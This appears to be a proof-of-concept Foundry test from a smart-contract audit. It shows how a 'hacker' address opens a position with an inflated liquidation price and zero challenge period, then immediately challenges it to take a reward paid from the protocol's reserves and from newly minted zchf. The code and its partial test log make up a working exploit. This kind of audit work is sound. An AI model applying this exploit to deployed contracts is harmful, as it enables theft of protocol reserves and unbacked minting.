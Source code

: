```solidity
        address hacker = 0xBaDbaDBAdBaDBaDbaDbABDbAdBAdBaDbADBadB01;
        TestToken xchf_ = TestToken(address(swap.chf()));
        xchf_.mint(address(hacker), 1002 ether);

        vm.startPrank(hacker);
        xchf_.approve(address(swap),  1000 ether);
        swap.mint(1000 ether);
        showBalances(); 

        // open a position with fake inflated price and dummy collateral. 
        // _challengeSeconds to 0 so we can immediately challenge and end
        xchf_.approve(address(hub),  1 ether); // collateral
        zchf.approve(address(hub),  1000 ether); // 1000 OPENING_FEE
        address myPosition = hub.openPosition(
            address(xchf_), // _collateralAddress,
            1 ether,        // _minCollateral
            1 ether,        // _initialCollateral
            1000 ether,     // _mintingMaximum
            3 days,         // _initPeriodSeconds minimum perios
            10 days,        // _expirationSeconds
            0,              // _challengeSeconds set to 0 to immediately challenge and end 
            0,              //_mintingFeePPM, 
            type(uint256).max / 1e20,  // _liqPrice - huge inflated price
            0               // _reservePPM
        );
        console.log('Creates our Position with inflated price, 1000 opening fee to reserves 1 xchf as collateral');
        showBalances();

        console.log('Start launchChallenge and immediately end the auction.');
        console.log('We will receive the 1 xchf collateral back');
        console.log('and 2% of inflated collateral price in zchf as CHALLENGER_REWARD');
        console.log('zchf is first taken all from reserve, and rest minted');
        xchf_.approve(address(hub),  1 ether); // collateral
        uint256 challengeID = hub.launchChallenge(myPosition, 1 ether);
        hub.end(challengeID);
        showBalances(); 
        vm.stopPrank();

    }
```

The results of the test

    [PASS] test10AbuseChallengeReward() (gas: 3939346)
    Logs:
      ================ Balances ================
      hacker xchf     : 2
      hacker zchf     : 1000
      reserver zchf   : 23500
      zchf.totalSupply: 102000
